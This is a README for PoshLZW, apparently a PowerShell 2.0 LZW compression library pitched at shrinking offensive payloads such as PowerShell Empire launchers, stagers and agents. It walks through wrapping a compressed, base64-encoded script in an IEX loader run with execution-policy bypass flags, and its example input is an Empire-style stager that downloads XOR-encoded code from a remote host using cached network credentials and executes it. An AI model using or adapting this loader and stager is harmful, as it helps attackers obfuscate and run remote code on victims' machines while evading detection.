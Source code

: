 License
-------

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 

                    Version 2, December 2004 
                    
Copyright (C) 2004 Sam Hocevar <sam@hocevar.net> 

Everyone is permitted to copy and distribute verbatim or modified 

copies of this license document, and changing it is allowed as long 

as the name is changed. 

           DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
           
 TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION 
 

0. You just DO WHAT THE FUCK YOU WANT TO.



Powershell developper ?
-----------------------
I'm far away from a real Powershell developper, so be free to propose improvements and code size reduction tricks.


PoshLZW
--------
`PowerShell LZW` is a LZW compression/decompression library for Powershell 2.0


Powershell 2.0 ?
----------------
By default, if you wanna have compatility you'll have to use v2.0, as it's the case for PowerShell Empire.


iCodingSize !!?
---------------
LZW work by building a ephemeral dictionnary, feeded then by following bytes. The main idea is to encode bytes not on 8-bits but on iCodingSize-bits (9 to 15).
Why min at 9 ? 'cause less would mean size growth.
Why max at 15 ? Well... why not ;-)
So for example, 4-bytes can be encoded only on 9 bits (if you choose a
iCodingSize value of 9 and if it's in the dictionnary).
This value is also the maximum size of the dictionnary : 2^iCodingSize-1
It's stored in the output at index 0, encoded on 8-bits (a normal byte).


Five functions
---------------
Five Long functions :
 - Bits-Shift : a simple bits shifting function that don't fucking exists in Powershell 2 !!?
 - Bits-Read : read n-bits from an array of Bytes, at a certain position
 - Bits-Write : write n-bits to an array of Bytes, at a certain position
 - LZWCompress : Compress
 - LZWDecompress : Decompress

These too long functions have been manually shortened to save space:
 - bs (for Bits-Shift), 62 bytes long
 - br (for Bits-Read), 225 bytes long
 - bw (for Bits-Write), 247 bytes long
 - lzwc (for LZWCompress), 395 bytes long
 - lzwd (for LZWDecompress), 345 bytes long

Could certainly be optimized ;-)


Powershell script intended to be executed
-----------------------------------------
To use LZW it's simple :
1/ Declare functions (or import-module PoshLZW.ps1)
  PS> $m_=[math];
  PS> function bs{...
  PS> function bw{...
  PS> function lzwc{...

2/ compress your powershell script :
  PS> $MyScript = "write-host 'Hello World';";
  PS> $lz = lzwc $MyScript 10;

3/ encode the compressed script in base64
  PS> $lz64 = [convert]::ToBase64String($lz);

4/ Build the payload with the overhead :
  PS> $payload = '$m_=[math];';
  PS> $payload+= 'function bs{...' + 'function br{...' + 'function lzwd{...';
  PS> $payload+= 'IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lz64+'"))))';

Then you can execute the payload with #>powershell -nop -noni -ex bypass -c here-the-payload
But take care about the command line size ;-)


Good rate ?
----------------
Here you'll find a comparison table of different payloads.
Text : normal ps1 file/payload, without optimisation
H : overhead of 701 bytes (LZWDecompress, Bits-Read, Bits-Shift and IEX)
9-15 : iCodingSize, meaning encoding size in bits and also dictionnary size
A way to use compression could be to run "powershell -c H+B64(LZW(T,9))"
 
|                      | Launcher | Stager |  Agent  |
|----------------------|----------|--------|---------|
|       Text as T      |   418    |  4 909 |  44 041 |
| B64(T)     | 1 116    | 13 092 | 117 444 |
|           LZW(T,9)   |   387    |  3 740 |  27 878 |
|     H+B64(LZW(T,9)   | 2 051    | 13 877 |  97 516 |
| B64(H+B64(LZW(T,9))  | 5 472    | 37 008 | 260 044 |
|           LZW(T,10)  |   426    |  3 260 |  24 934 |
|     H+B64(LZW(T,10)  | 2 112    | 12 127 |  85 885 |
| B64(H+B64(LZW(T,10)) | 5 632    | 32 340 | 229 028 |
|           LZW(T,11)  |   469    |  3 145 |  20 474 |
|     H+B64(LZW(T,11)  | 2 261    |*11 576*|  72 444 |
| B64(H+B64(LZW(T,11)) | 6 032    | 30 872 | 193 184 |
|           LZW(T,12)  |   511    |  3 373 |  18 312 |
|     H+B64(LZW(T,12)  | 2 237    | 11 600 |  63 583 |
| B64(H+B64(LZW(T,12)) | 5 968    | 30 936 | 169 556 |
|           LZW(T,13)  |   554    |  3 654 |  16 589 |
|     H+B64(LZW(T,13)  | 2 426    | 12 788 | *58 306*|
| B64(H+B64(LZW(T,13)) | 6 472    | 34 104 | 155 484 |
|           LZW(T,14)  |   596    |  3 935 |  17 545 |
|     H+B64(LZW(T,14)  | 2 481    | 13 243 |  59 852 |
| B64(H+B64(LZW(T,14)) | 6 616    | 35 316 | 159 608 |
|           LZW(T,15)  |   639    |  4 216 |  18 798 |
|     H+B64(LZW(T,15)  | 2 611    | 13 944 |  63 437 |
| B64(H+B64(LZW(T,15)) | 6 964    | 37 184 | 169 168 |



Example
-------

Stats
    $ PS > $text = '$Wc=NEW-ObjEcT SYStEM.Net.WEBCliENT;$u="Test/5.0 (Windows NT 5.1; Trident/1.0;) like Gecko";$wc.HeADerS.ADD("User-Agent",$u);$wc.ProXY = [SYSTem.Net.WEBREQuEsT]::DEFAulTWebPROXY;$WC.PRoxy.CReDEnTIaLS = [SYStEM.NET.CRedEnTiALCACHe]::DEFAulTNetwORKCredenTiaLs;$K="aaaaaaaabbbbbbbbcccccccceeeeeeee";$I=0;[chAr[]]$b=([CHAr[]]($wC.DowNlOaDSTRing("http://1.2.3.4:80/index.asp")))|%{$_-BXoR$k[$i++%$k.LeNgTH]};IEX ($B-jOIn"")';
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("stager.ps1"));
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("agent.ps1"));
    $ PS > write-host "|                 Text   |" $text.length
    $ PS > write-host "|             B64(Text)  |" ([Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))).length
    $ PS > foreach ($i in 9..15){
    $ PS > 	$lzw = lzwc $text $i;
    $ PS > 	write-host "|           LZW(T,$i)  |" $lzw.length;
    $ PS > 	$64lzw = [convert]::ToBase64String($lzw);
    $ PS > 	$overhead='$m_=[math];function bs{param($v,$s)return $m_::Floor($v*$m_::Pow(2,-$s))}function br{param($o,$c,$a)$p=$i=$e=0;$j=$m_::floor(($t=$a.value)*$c/8);$s=($r=8-(($t*$c)%8))-$c;$b=$m_::Pow(2,$c)-1;while($e-lt$c){$p=$p-bor((bs $o[$j+$i] $s)-band$b);$e+=$r;$r=$m_::max($r,8);$s+=8;$i++}$a.value++;return $p}';
    $ PS > function lzwd{param($p)$a=$j=0;$v=@();$e=$o="";$c=$p[0];$p=$p[1..$p.length];foreach($i in 0..255){$v+=[string]([char]$i)}$o+=($w=[string]$v[($j=br $p $c ([ref]$a))]);while([math]::floor($a*$c/8)-lt($p.length-1)){$l=$v.count;$j=br $p $c ([ref]$a);$o+=$v[$j];if($j-lt$l){$e=[string]$v[$j]}elseif($j-eq$l){$e=$w+$w[0]}$v+=$w+$e[0];$w=$e}return $o;}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lzw+'"))))';
    $ PS > 	write-host "|     H+B64(LZW(T,$i)  |" $overhead.length;
    $ PS > 	$b64hz = [convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($overhead));
    $ PS > 	write-host "| B64(H+B64(LZW(T,$i)) |" $b64hz.length;
    $ PS > }

Last word ?
-----------

         ///\\\  ( Have Fun )
        ( ^  ^ ) /
      __(  __  )__
     / _ `----' _ \
     \__\   _   |__\
      (..) _| _ (..)
       |____(___|     Mynameisv_ 2016
_ __ _ (____)____) _ _________________________________ _'